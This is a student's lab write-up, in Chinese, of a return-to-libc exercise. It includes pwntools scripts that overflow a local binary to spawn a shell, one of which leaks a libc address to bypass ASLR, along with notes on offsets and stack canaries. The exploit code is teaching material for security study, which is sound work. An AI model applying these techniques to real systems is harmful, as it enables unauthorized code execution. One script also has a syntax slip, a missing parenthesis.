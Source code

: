

# Return-to-libc Attack Lab

> 1120162015 李博

## Task1: Exploiting the Vulnerability 

脚本如下

```python
from pwn import *

offset = 0x14+4
sys_addr = 0xb7e42da0
exit_addr = 0xb7e369d0
#print hex(sys_addr),hex(exit_addr)
binsh_addr = 0xbffffe16

payload = 'a'*offset + p32(sys_addr) + p32(exit_addr) + p32(binsh_addr)

with open('badfile','w') as f:
	f.write(payload
```

buffer距ret_addr的偏移通过IDA看栈的结构，如下图。

![task1_offset](../images/lab4-task1-offset.png)

system和exit的地址通过gdb调试查看，如下图。

![sys&exit](../images/lab4-task1-sys-and-exit.png)

`/bin/sh`是通过设置环境变量`MYSHELL`，之后查看其地址即可。

这里有一个注意的点是，gdb调试出来的环境变量地址与程序真实运行输出的环境变量地址有一定的偏差。

![print_env](../images/lab4-task1-print-env.png)

执行脚本，获取shell。

![task1_get_shell](../images/lab4-task1-get-shell.png)

之后将程序名`retlibenv`改为`retlib`，再次运行，发现无法getshell。

![task1_failed](../images/lab4-task1-failed.png)

原因在于，程序运行时程序名早于环境变量加载，故在内存中环境变量的地址会随程序名长度的不同而产生偏移。

解决方法就是将输出环境变量地址的程序与有漏洞的程序设置成名字长度相等。

## Task2: Address Randomization

开启地址随机化后，结果如下图。

![alsr](../images/lab4-task2-alsr.png)

发生段错误的原因在于，开启地址随机化后，system和exit的地址发生改变，并且环境变量中`/bin/sh`的地址也改变，导致原本的地址失效，执行`system(‘/bin/sh’)`失败。

接下来记录我绕过地址随机化的方法。

`ldd`命令可以查看可执行文件的链接库，如下图。

![ldd](../images/lab4-task2-ldd.png)

首先将返回地址覆盖为`puts`函数，通过`puts`函数泄漏`puts`函数的真实地址，并将`puts`的返回地址设置为`_start`函数，达到循环利用栈溢出的目的。

接着通过泄露出来的真实地址与libc中函数的偏移作差，获得libc的基址，继而计算出`system`函数，`exit`函数和字符串`/bin/sh`的真实地址。

最后再次利用栈溢出getshell。

脚本如下

```python
from pwn import *
#context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','sh','-c']

elf = ELF('./retlibenv')
libc = ELF('./libc.so')

offset = 0x14+4

# Step1: lead libc_base address
start_addr = elf.symbols['_start']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
puts_libc = libc.symbols['puts']

payload = 'a'*offset + p32(puts_plt) + p32(start_addr) + p32(puts_got)

with open('badfile','w') as f:
	f.write(payload)

io = process('./retlibenv')
io.sendline('')
puts_real_addr = u32(io.recvline()[:4])
print hex(puts_real_addr)

# Step2: get shell
libc_base = puts_real_addr-puts_libc
system_addr = libc_base + libc.symbols['system']
exit_addr = libc_base + libc.symbols['exit']
binsh_addr = libc_base + next(libc.search('/bin/sh'))
print "[*] system_addr = {}".format(hex(system_addr))
print "[*] exit_addr = {}".format(hex(exit_addr))

payload = 'a'*offset + p32(system_addr) + p32(exit_addr) + p32(binsh_addr)
print payload
with open('badfile','w') as f:
	f.write(payload)
print "[*] write !"
io.sendline('')
io.interactive()
```

结果如下

![task2_get_shell](../images/lab4-task2-get-shell.png)

这里由于将返回地址覆盖为`_start`，导致程序不断读取badfile，很难抓到时机写入badfile，所以我在源码的读取文件之前加了个getchar达到中断的目的。

## Task3: Stack Guard Protection

开启栈保护后，结果如下图。

![canary](../images/lab4-task3-canary.png)

执行失败的原因在于，canary机制在栈上past_ebp与ret_addr之间写入了一段数据，若进行栈溢出则会将其覆盖，系统检测到数据被更改则退出程序。